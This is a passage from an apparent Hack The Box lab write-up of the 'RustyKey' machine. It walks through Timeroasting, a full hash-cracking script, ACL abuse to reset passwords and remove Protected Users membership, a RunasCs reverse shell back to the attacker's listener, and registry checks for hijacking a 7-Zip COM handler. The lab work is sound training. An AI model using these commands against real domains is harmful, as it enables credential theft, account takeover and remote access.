SMB         10.129.104.184  445    10.129.104.184   [-] RUSTYKEY.HTB\ from ccache KDC_ERR_S_PRINCIPAL_UNKNOWN 
TIMEROAST   10.129.104.184  445    10.129.104.184   [*] Starting Timeroasting...
TIMEROAST   10.129.104.184  445    10.129.104.184   1000:$sntp-ms$673deff65ba0b936f611053f3bead102$1c0111e900000000000a1b344c4f434cec0b2af884ffce81e1b8428bffbfcd0aec0b4ed624ffbc0dec0b4ed624ffd892
TIMEROAST   10.129.104.184  445    10.129.104.184   1104:$sntp-ms$da9a7a30f696e17bb4b4731865fb1b43$1c0111e900000000000a1b344c4f434cec0b2af8829b7d9fe1b8428bffbfcd0aec0b4ed6d2bc3321ec0b4ed6d2bc4a9e
TIMEROAST   10.129.104.184  445    10.129.104.184   1103:$sntp-ms$c54e367acabfdf8ae049616c06516c60$1c0111e900000000000a1b344c4f434cec0b2af8829b0178e1b8428bffbfcd0aec0b4ed6d2bbb044ec0b4ed6d2bbd1d2
TIMEROAST   10.129.104.184  445    10.129.104.184   1105:$sntp-ms$13b40597252d73a45e01cb98399496b0$1c0111e900000000000a1b344c4f434cec0b2af8829bba05e1b8428bffbfcd0aec0b4ed6d6935836ec0b4ed6d693a3b6
TIMEROAST   10.129.104.184  445    10.129.104.184   1106:$sntp-ms$0eeaa19ae46e8b15a32cd631b73bcce6$1c0111e900000000000a1b344c4f434cec0b2af8843916a2e1b8428bffbfcd0aec0b4ed6d830b82eec0b4ed6d830f99d
TIMEROAST   10.129.104.184  445    10.129.104.184   1107:$sntp-ms$5039dbb0876228e38dc2f241064e3fe3$1c0111e900000000000a1b344c4f434cec0b2af885bed817e1b8428bffbfcd0aec0b4ed6d9b677f6ec0b4ed6d9b6c01b
TIMEROAST   10.129.104.184  445    10.129.104.184   1121:$sntp-ms$e4e780762ee1e408b365049937c9e035$1c0111e900000000000a1b354c4f434cec0b2af884acc921e1b8428bffbfcd0aec0b4ed6ec9c4545ec0b4ed6ec9c779a
TIMEROAST   10.129.104.184  445    10.129.104.184   1120:$sntp-ms$7a0907455dad90ca9538a7f175d94dca$1c0111e900000000000a1b354c4f434cec0b2af884a9ebf7e1b8428bffbfcd0aec0b4ed6ec9973d9ec0b4ed6ec999715
TIMEROAST   10.129.104.184  445    10.129.104.184   1118:$sntp-ms$a27dee3aad3c978ed6c52a603026e7fd$1c0111e900000000000a1b354c4f434cec0b2af8848f6639e1b8428bffbfcd0aec0b4ed6ec7ef680ec0b4ed6ec7f0c4f
TIMEROAST   10.129.104.184  445    10.129.104.184   1119:$sntp-ms$855ad8d96730a4e5fa6b3492378e52b4$1c0111e900000000000a1b354c4f434cec0b2af884924a19e1b8428bffbfcd0aec0b4ed6ec81c999ec0b4ed6ec81f538
TIMEROAST   10.129.104.184  445    10.129.104.184   1122:$sntp-ms$ff95d282096729712b1275fbb39a814d$1c0111e900000000000a1b354c4f434cec0b2af883f81f60e1b8428bffbfcd0aec0b4ed6f0001e32ec0b4ed6f0006804
TIMEROAST   10.129.104.184  445    10.129.104.184   1123:$sntp-ms$fd93afeae388bba24361afbd791d6dcd$1c0111e900000000000a1b354c4f434cec0b2af883f92a22e1b8428bffbfcd0aec0b4ed6f0013d16ec0b4ed6f0016dbe
TIMEROAST   10.129.104.184  445    10.129.104.184   1125:$sntp-ms$c1a103e9a3cc75e7a525ee1f07663272$1c0111e900000000000a1b354c4f434cec0b2af883099905e1b8428bffbfcd0aec0b4ed6f32a411cec0b4ed6f32a6e68
TIMEROAST   10.129.104.184  445    10.129.104.184   1124:$sntp-ms$f470bb24f1a392e4a54b937dc3e71b07$1c0111e900000000000a1b354c4f434cec0b2af88308a5c0e1b8428bffbfcd0aec0b4ed6f3294573ec0b4ed6f3297cd1
TIMEROAST   10.129.104.184  445    10.129.104.184   1127:$sntp-ms$888e560b0110dcdd8f8c7875d2ac570a$1c0111e900000000000a1b354c4f434cec0b2af8827235a7e1b8428bffbfcd0aec0b4ed6f669e9a8ec0b4ed6f66a16f5
TIMEROAST   10.129.104.184  445    10.129.104.184   1126:$sntp-ms$a561e867a6d41b1f24759f7e3488f568$1c0111e900000000000a1b354c4f434cec0b2af88271913ce1b8428bffbfcd0aec0b4ed6f6692c13ec0b4ed6f6697c9b
```

### Cracking the Hashes

We put all the collected `hashes` into a file and used the `timecrack.py` script from the `SecuraBV` repository of their research to crack them.

- [https://raw.githubusercontent.com/SecuraBV/Timeroast/refs/heads/main/extra-scripts/timecrack.py](https://raw.githubusercontent.com/SecuraBV/Timeroast/refs/heads/main/extra-scripts/timecrack.py)

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ cat timeroast.hashes 
1000:$sntp-ms$673deff65ba0b936f611053f3bead102$1c0111e900000000000a1b344c4f434cec0b2af884ffce81e1b8428bffbfcd0aec0b4ed624ffbc0dec0b4ed624ffd892
1104:$sntp-ms$da9a7a30f696e17bb4b4731865fb1b43$1c0111e900000000000a1b344c4f434cec0b2af8829b7d9fe1b8428bffbfcd0aec0b4ed6d2bc3321ec0b4ed6d2bc4a9e
1103:$sntp-ms$c54e367acabfdf8ae049616c06516c60$1c0111e900000000000a1b344c4f434cec0b2af8829b0178e1b8428bffbfcd0aec0b4ed6d2bbb044ec0b4ed6d2bbd1d2
1105:$sntp-ms$13b40597252d73a45e01cb98399496b0$1c0111e900000000000a1b344c4f434cec0b2af8829bba05e1b8428bffbfcd0aec0b4ed6d6935836ec0b4ed6d693a3b6
1106:$sntp-ms$0eeaa19ae46e8b15a32cd631b73bcce6$1c0111e900000000000a1b344c4f434cec0b2af8843916a2e1b8428bffbfcd0aec0b4ed6d830b82eec0b4ed6d830f99d
1107:$sntp-ms$5039dbb0876228e38dc2f241064e3fe3$1c0111e900000000000a1b344c4f434cec0b2af885bed817e1b8428bffbfcd0aec0b4ed6d9b677f6ec0b4ed6d9b6c01b
1121:$sntp-ms$e4e780762ee1e408b365049937c9e035$1c0111e900000000000a1b354c4f434cec0b2af884acc921e1b8428bffbfcd0aec0b4ed6ec9c4545ec0b4ed6ec9c779a
1120:$sntp-ms$7a0907455dad90ca9538a7f175d94dca$1c0111e900000000000a1b354c4f434cec0b2af884a9ebf7e1b8428bffbfcd0aec0b4ed6ec9973d9ec0b4ed6ec999715
1118:$sntp-ms$a27dee3aad3c978ed6c52a603026e7fd$1c0111e900000000000a1b354c4f434cec0b2af8848f6639e1b8428bffbfcd0aec0b4ed6ec7ef680ec0b4ed6ec7f0c4f
1119:$sntp-ms$855ad8d96730a4e5fa6b3492378e52b4$1c0111e900000000000a1b354c4f434cec0b2af884924a19e1b8428bffbfcd0aec0b4ed6ec81c999ec0b4ed6ec81f538
1122:$sntp-ms$ff95d282096729712b1275fbb39a814d$1c0111e900000000000a1b354c4f434cec0b2af883f81f60e1b8428bffbfcd0aec0b4ed6f0001e32ec0b4ed6f0006804
1123:$sntp-ms$fd93afeae388bba24361afbd791d6dcd$1c0111e900000000000a1b354c4f434cec0b2af883f92a22e1b8428bffbfcd0aec0b4ed6f0013d16ec0b4ed6f0016dbe
1125:$sntp-ms$c1a103e9a3cc75e7a525ee1f07663272$1c0111e900000000000a1b354c4f434cec0b2af883099905e1b8428bffbfcd0aec0b4ed6f32a411cec0b4ed6f32a6e68
1124:$sntp-ms$f470bb24f1a392e4a54b937dc3e71b07$1c0111e900000000000a1b354c4f434cec0b2af88308a5c0e1b8428bffbfcd0aec0b4ed6f3294573ec0b4ed6f3297cd1
1127:$sntp-ms$888e560b0110dcdd8f8c7875d2ac570a$1c0111e900000000000a1b354c4f434cec0b2af8827235a7e1b8428bffbfcd0aec0b4ed6f669e9a8ec0b4ed6f66a16f5
1126:$sntp-ms$a561e867a6d41b1f24759f7e3488f568$1c0111e900000000000a1b354c4f434cec0b2af88271913ce1b8428bffbfcd0aec0b4ed6f6692c13ec0b4ed6f6697c9b
```

After a few failed attempts our mate `trustie_rity` came up with some `modifications` which allowed us to finally `crack` the `hash` of `IT-COMPUTER3`.

```shell
<--- CUT FOR BREVITY --->
  argparser.add_argument('hashes', type=FileType('r'), help='Output of timeroast.py')
  argparser.add_argument('dictionary', type=FileType('r'), help='Line-delimited password dictionary')
<--- CUT FOR BREVITY --->
```

```shell
<--- CUT FOR BREVITY --->
  argparser.add_argument('hashes', type=lambda f: open(f, 'r', encoding='latin-1'), help='Output of timeroast.py')
  argparser.add_argument('dictionary', type=lambda f: open(f, 'r', encoding='latin-1'), help='Line-delimited password dictionary')
<--- CUT FOR BREVITY --->
```

```shell
#!/usr/bin/env python3

"""Perform a simple dictionary attack against the output of timeroast.py. Neccessary because the NTP 'hash' format 
unfortunately does not fit into Hashcat or John right now.

Not even remotely optimized, but still useful for cracking legacy default passwords (where the password is the computer 
name) or specific default passwords that are popular in an organisation.
"""

from binascii import hexlify, unhexlify
from argparse import ArgumentParser, FileType, RawDescriptionHelpFormatter
from typing import TextIO, Generator, Tuple
import hashlib, sys, re

HASH_FORMAT = r'^(?P<rid>\d+):\$sntp-ms\$(?P<hashval>[0-9a-f]{32})\$(?P<salt>[0-9a-f]{96})$'

def md4(data : bytes) -> bytes:
  try:
    return hashlib.new('md4', data).digest()
  except ValueError:
    # Use pure-Python implementation by James Seo in case local OpenSSL does not support MD4.
    from md4 import MD4
    return MD4(data).bytes()

def compute_hash(password : str, salt : bytes) -> bytes:
  """Compute a legacy NTP authenticator 'hash'."""
  return hashlib.md5(md4(password.encode('utf-16le')) + salt).digest()
    

def try_crack(hashfile : TextIO, dictfile : TextIO) -> Generator[Tuple[int, str], None, None]:
  # Try each dictionary entry for each hash. dictfile is read iteratively while hashes are stored in RAM.
  hashes = []
  for line in hashfile:
    line = line.strip()
    if line:
      m = re.match(HASH_FORMAT, line)
      if not m:
        print(f'ERROR: invalid hash format: {line}', file=sys.stderr)
        sys.exit(1)
      rid, hashval, salt = m.group('rid', 'hashval', 'salt')
      hashes.append((int(rid), unhexlify(hashval), unhexlify(salt)))
      
  
  for password in dictfile:
    password = password.strip()
    for rid, hashval, salt in hashes:
      if compute_hash(password, salt) == hashval:
        yield rid, password

def main():
  argparser = ArgumentParser(formatter_class=RawDescriptionHelpFormatter, description=\
"""Perform a simple dictionary attack against the output of timeroast.py.

Not even remotely optimized, but still useful for cracking legacy default 
passwords (where the password is the computer name) or specific default 
passwords that are popular in an organisation.
""")

  argparser.add_argument('hashes', type=lambda f: open(f, 'r', encoding='latin-1'), help='Output of timeroast.py')
  argparser.add_argument('dictionary', type=lambda f: open(f, 'r', encoding='latin-1'), help='Line-delimited password dictionary')
  args = argparser.parse_args()

  crackcount = 0
  for rid, password in try_crack(args.hashes, args.dictionary):
    print(f'[+] Cracked RID {rid} password: {password}')
    crackcount += 1

  print(f'\n{crackcount} passwords recovered.')

if __name__ == '__main__':
  main()


```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ python3 timecrack.py timeroast.hashes /usr/share/wordlists/rockyou.txt                                                 
[+] Cracked RID 1125 password: Rusty88!

1 passwords recovered.
```

| Password |
| -------- |
| Rusty88! |

## Access Control Entry (ACE) AddSelf Abuse

Now having the actual `password` of `IT-COMPUTER3` allowed us to abuse the `AddSelf` permission to move ourselves into the group of `HELPDESK`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ impacket-getTGT rustykey.htb/IT-COMPUTER3$:Rusty88!
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in IT-COMPUTER3$.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ export KRB5CCNAME=IT-COMPUTER3\$.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ bloodyAD --host 10.129.104.184 --dc-ip dc.rustykey.htb -d rustykey.htb -d rustykey.htb -k add groupMember 'HELPDESK' 'IT-COMPUTER3$'
[+] IT-COMPUTER3$ added to HELPDESK
```

## Foothold

## Privilege Escalation to BB.MORGAN

### Access Control Entry (ACE) ForceChangePassword Abuse Part 1

As part of `HELPDESK` options opened up widely for us. We could use `ForceChangePassword` permissions of several `user objects` but the one we focused on first was `bb.morgan` because the user had the capability to `login` to the box.



When we took a closer look at `bb.morgan` we noticed a group membership of `PROTECTED OBJECTS`. In order to successfully carry out our attack and `privilege escalation` we needed to `remove` the `user` from the `PROTECTED OBJECTS` group.

- [https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group)



First we updated our `krb5.conf` because we faced some issues with the configuration of the box. To not modify the original file every time, we decided to create a custom one which we exported to our current shell.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ cat krb5.conf 
[libdefaults]
    default_realm = RUSTYKEY.HTB
    dns_lookup_realm = true
    dns_lookup_kdc = true
    ticket_lifetime = 24h
    forwardable = true

[realms]
    RUSTYKEY.HTB = {
        kdc = dc.rustykey.htb
        admin_server = dc.rustykey.htb
    }

[domain_realm]
    .rustykey.htb = RUSTYKEY.HTB
    rustykey.htb = RUSTYKEY.HTB
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ export KRB5_CONFIG=krb5.conf
```

Then we `changed` the `password` of `bb.morgan`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ bloodyAD --host 10.129.104.184 --dc-ip dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k set password 'BB.MORGAN' 'P@ssword123'
[+] Password changed successfully!
```

And right after that we `removed` not only the user from the `PROTECTED OBJECTS` group, instead we had to remove the whole `IT` group because of the given permissions.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ bloodyAD --host 10.129.104.184 --dc-ip dc.rustykey.htb -d rustykey.htb  -u 'IT-COMPUTER3$' -p 'Rusty88!' -k remove groupMember 'PROTECTED OBJECTS' 'IT'       
[-] IT removed from PROTECTED OBJECTS
```

Now we were able to request a `Kerberos Ticket` as the user.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ impacket-getTGT rustykey.htb/bb.morgan:P@ssword123                                                                                               
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in bb.morgan.ccache
```

After we exported it to our shell we were able to login using `Evil-WinRM` and the previously configured `Kerberos Realm`, which granted us access to the `user.txt`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ export KRB5CCNAME=bb.morgan.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ evil-winrm -i dc.rustykey.htb -r RUSTYKEY.HTB
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\bb.morgan\Documents>
```

## user.txt

```shell
*Evil-WinRM* PS C:\Users\bb.morgan\Desktop> type user.txt
4e299bbb656e15c828ad30859462fe08
```

## Enumeration (BB.MORGAN)

We followed the usual process of quickly `enumerating` the `privileges` of a user but since we didn't found anything useful, we moved on with some manual checks.

```cmd
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> whoami /all

USER INFORMATION
----------------

User Name          SID
================== =============================================
rustykey\bb.morgan S-1-5-21-3316070415-896458127-4139322052-1139


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                           Attributes
=========================================== ================ ============================================= ==================================================
Everyone                                    Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
RUSTYKEY\IT                                 Group            S-1-5-21-3316070415-896458127-4139322052-1131 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Inside the `Desktop` folder we found a document called `internal.pdf` which described the use of some `Archiving Tool` and the `extended access` temporarily granted to members of the `Support` group.

```cmd
*Evil-WinRM* PS C:\Users\bb.morgan\Desktop> ls


    Directory: C:\Users\bb.morgan\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/4/2025   9:15 AM           1976 internal.pdf
-ar---        6/28/2025   8:01 PM             34 user.txt
```

```cmd
*Evil-WinRM* PS C:\Users\bb.morgan\Desktop> download internal.pdf
                                        
Info: Downloading C:\Users\bb.morgan\Desktop\internal.pdf to internal.pdf
                                        
Info: Download successful!
```

```shell
Internal Memo
From: bb.morgan@rustykey.htb
To: support-team@rustykey.htb
Subject: Support Group - Archiving Tool Access
Date: Mon, 10 Mar 2025 14:35:18 +0100
Hey team,
As part of the new Support utilities rollout, extended access has been temporarily granted to allow
testing and troubleshooting of file archiving features across shared workstations.
This is mainly to help streamline ticket resolution related to extraction/compression issues reported
by the Finance and IT teams. Some newer systems handle context menu actions differently, so
registry-level adjustments are expected during this phase.
A few notes:
- Please avoid making unrelated changes to system components while this access is active.
- This permission change is logged and will be rolled back once the archiving utility is confirmed
stable in all environments.
- Let DevOps know if you encounter access errors or missing shell actions.
Thanks,
BB Morgan
IT Department
```

## Privilege Escalation to EE.REED

### Access Control Entry (ACE) ForceChangePassword Abuse Part 2

Now knowing that we needed to `escalate` or `privileges` further to `ee.reed` which was part of the `SUPPORT` group, we repeated the steps we previously did for `bb.morgan`.



```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ impacket-getTGT rustykey.htb/IT-COMPUTER3$:Rusty88!
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in IT-COMPUTER3$.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ export KRB5CCNAME=IT-COMPUTER3\$.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ bloodyAD --host 10.129.104.184 --dc-ip dc.rustykey.htb -d rustykey.htb -d rustykey.htb -k add groupMember 'HELPDESK' 'IT-COMPUTER3$'
[+] IT-COMPUTER3$ added to HELPDESK
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ bloodyAD --host 10.129.104.184 --dc-ip dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k set password 'EE.REED' 'P@ssword123'
[+] Password changed successfully!
```

This time we removed the `IT` group as well as the `SUPPORT` group from the `PROTECTED OBJECTS` group.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ bloodyAD --host 10.129.104.184 --dc-ip dc.rustykey.htb -d rustykey.htb  -u 'IT-COMPUTER3$' -p 'Rusty88!' -k remove groupMember 'PROTECTED OBJECTS' 'IT' 
[-] IT removed from PROTECTED OBJECTS
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ bloodyAD --host 10.129.104.184 --dc-ip dc.rustykey.htb -d rustykey.htb  -u 'IT-COMPUTER3$' -p 'Rusty88!' -k remove groupMember 'PROTECTED OBJECTS' 'SUPPORT' 
[-] SUPPORT removed from PROTECTED OBJECTS
```

Since we couldn't login the same way as we did with `bb.morgan` before, we decided to use `RunasCs` because we obviously knew the `password` for `ee.reed` in order to get a shell.

```cmd
*Evil-WinRM* PS C:\temp> .\RunasCs.exe ee.reed P@ssword123 cmd.exe -r 10.10.16.19:4444
[*] Warning: User profile directory for user ee.reed does not exists. Use --force-profile if you want to force the creation.
[*] Warning: The logon for user 'ee.reed' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-46cab11$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 3264 created in background.
```

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.19] from (UNKNOWN) [10.129.104.184] 57399
Microsoft Windows [Version 10.0.17763.7434]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

## Enumeration (EE.REED)

Another quick enumeration but with the same results as before left the idea that we might overlooked something the first time we got access to the box.

```shell
C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name        SID                                          
================ =============================================
rustykey\ee.reed S-1-5-21-3316070415-896458127-4139322052-1145


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes                                        
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Group used for deny only                          
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
RUSTYKEY\Support                           Group            S-1-5-21-3316070415-896458127-4139322052-1132 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                     


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Within `Program Files` the folder of the application `7-Zip` stood out of the ordinary. This was a perfect match to the `.pdf` file we found earlier.

```shell
C:\Program Files>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 00BA-0DBE

 Directory of C:\Program Files

12/26/2024  09:24 PM    <DIR>          .
12/26/2024  09:24 PM    <DIR>          ..
12/26/2024  09:24 PM    <DIR>          7-Zip
12/26/2024  05:28 PM    <DIR>          Common Files
06/24/2025  09:59 AM    <DIR>          internet explorer
12/26/2024  05:28 PM    <DIR>          VMware
05/30/2025  03:02 PM    <DIR>          Windows Defender
06/24/2025  09:59 AM    <DIR>          Windows Defender Advanced Threat Protection
11/05/2022  12:03 PM    <DIR>          Windows Mail
06/05/2025  07:54 AM    <DIR>          Windows Media Player
09/15/2018  12:19 AM    <DIR>          Windows Multimedia Platform
09/15/2018  12:28 AM    <DIR>          windows nt
11/05/2022  12:03 PM    <DIR>          Windows Photo Viewer
09/15/2018  12:19 AM    <DIR>          Windows Portable Devices
09/15/2018  12:19 AM    <DIR>          Windows Security
09/15/2018  12:19 AM    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
              16 Dir(s)   2,846,130,176 bytes free
```

## Privilege Escalation (MM.TURNER)

### DCOM Lateral Movement

We checked the version of `7-Zip` for known vulnerabilities.

```cmd
C:\Program Files\7-Zip>type readme.txt
type readme.txt
7-Zip 24.08
<--- CUT FOR BREVITY --->
```

Then we started to take a very close look at the application and it's use cases related to the document. Therefore we checked the `Registry` was well as `file` and `folder permissions`.

```cmd
PS C:\> reg query "HKCR\.zip"
reg query "HKCR\.zip"

HKEY_CLASSES_ROOT\.zip
    (Default)    REG_SZ    CompressedFolder
    Content Type    REG_SZ    application/x-zip-compressed
    DontCompressInPackage    REG_SZ    
    PerceivedType    REG_SZ    compressed

HKEY_CLASSES_ROOT\.zip\CompressedFolder
HKEY_CLASSES_ROOT\.zip\OpenWithProgids
HKEY_CLASSES_ROOT\.zip\PersistentHandler
```

```cmd
PS C:\> icacls "C:\Program Files\7-Zip"
icacls "C:\Program Files\7-Zip"
C:\Program Files\7-Zip NT SERVICE\TrustedInstaller:(I)(F)
                       NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                       NT AUTHORITY\SYSTEM:(I)(F)
                       NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                       BUILTIN\Administrators:(I)(F)
                       BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                       BUILTIN\Users:(I)(RX)
                       BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                       CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                       APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                       APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
                       APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
                       APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files
```

We assumed that we could leverage the `ContextMenuHandlers` to `move laterally`. For this to work the box had to be configured with a `client-side` step, most likely executed with a `Scheduled Task`.

```cmd
PS C:\> reg query "HKCR\*\shellex\ContextMenuHandlers"
reg query "HKCR\*\shellex\ContextMenuHandlers"

HKEY_CLASSES_ROOT\*\shellex\ContextMenuHandlers\7-Zip
HKEY_CLASSES_ROOT\*\shellex\ContextMenuHandlers\ModernSharing
HKEY_CLASSES_ROOT\*\shellex\ContextMenuHandlers\Open With
HKEY_CLASSES_ROOT\*\shellex\ContextMenuHandlers\Open With EncryptionMenu
HKEY_CLASSES_ROOT\*\shellex\ContextMenuHandlers\Sharing
HKEY_CLASSES_ROOT\*\shellex\ContextMenuHandlers\{90AA3A4E-1CBA-4233-B8BB-535773D48449}
HKEY_CLASSES_ROOT\*\shellex\ContextMenuHandlers\{a2a9545d-a0c2-42b4-9708-a0b2badd77c8}
```

We found the `Registry Value` and which utilized `InprocServer32`.

```cmd
PS C:\> reg query "HKCR\*\shellex\ContextMenuHandlers\7-Zip"
reg query "HKCR\*\shellex\ContextMenuHandlers\7-Zip"

HKEY_CLASSES_ROOT\*\shellex\ContextMenuHandlers\7-Zip
    (Default)    REG_SZ    {23170F69-40C1-278A-1000-000100020000}
```

```cmd
PS C:\> reg query "HKCR\CLSID\{23170F69-40C1-278A-1000-000100020000}"
reg query "HKCR\CLSID\{23170F69-40C1-278A-1000-000100020000}"

HKEY_CLASSES_ROOT\CLSID\{23170F69-40C1-278A-1000-000100020000}
    (Default)    REG_SZ    7-Zip Shell Extension

HKEY_CLASSES_ROOT\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32
```

```cmd
PS C:\> Get-Acl -Path "Registry::HKCR\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32"
Get-Acl -Path "Registry::HKCR\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32"

Path                                                                                                 Owner             
----                                                                                                 -----             
Microsoft.PowerShell.Core\Registry::HKCR\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32 BUILTIN\Adminis...
```

When we checked the `Access Control Lists (ACL)` for `InprocServer32` we confirmed that `Support` was granted `FullControl`.

```cmd
PS C:\> (Get-Acl -Path "Registry::HKCR\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32").Access
(Get-Acl -Path "Registry::HKCR\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32").Access


RegistryRights    : ReadKey
AccessControlType : Allow
IdentityReference : APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES
IsInherited       : True
InheritanceFlags  : ContainerInherit
PropagationFlags  : None

RegistryRights    : FullControl
AccessControlType : Allow
IdentityReference : BUILTIN\Administrators
IsInherited       : True
InheritanceFlags  : None
PropagationFlags  : None

RegistryRights    : FullControl
AccessControlType : Allow
IdentityReference : CREATOR OWNER
IsInherited       : True
InheritanceFlags  : ContainerInherit
PropagationFlags  : InheritOnly

RegistryRights    : FullControl
AccessControlType : Allow
IdentityReference : RUSTYKEY\Support
IsInherited       : True
InheritanceFlags  : ContainerInherit
PropagationFlags  : None

RegistryRights    : FullControl
AccessControlType : Allow
IdentityReference : NT AUTHORITY\SYSTEM
IsInherited       : True
InheritanceFlags  : ContainerInherit
PropagationFlags  : None

RegistryRights    : FullControl
AccessControlType : Allow
IdentityReference : BUILTIN\Administrators
IsInherited       : True
InheritanceFlags  : ContainerInherit
